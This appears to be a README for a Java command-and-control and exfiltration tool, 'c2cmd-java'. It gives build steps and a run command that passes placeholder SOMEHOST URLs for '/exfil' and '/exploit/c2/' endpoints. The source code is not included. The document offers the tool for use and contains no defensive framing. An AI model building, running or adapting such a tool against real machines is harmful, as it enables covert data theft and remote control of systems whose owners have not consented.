 # c2cmd-java

```Your Urls have to be added to the Java source code.```

To create the jar and run within its own directory:

```
javac c2cmd.java
jar -cvmf exfil.mf exfil.jar *
```
To run it (with your url changes compiled above) 
```
java -jar exfil.jar
```
or run it like
```
java -jar exfil.jar https://SOMEHOST/exfil https://SOMEHOST/exploit/c2/2c.php?get=1 https://SOMEHOST/exploit/c2/c2.txt 2
```
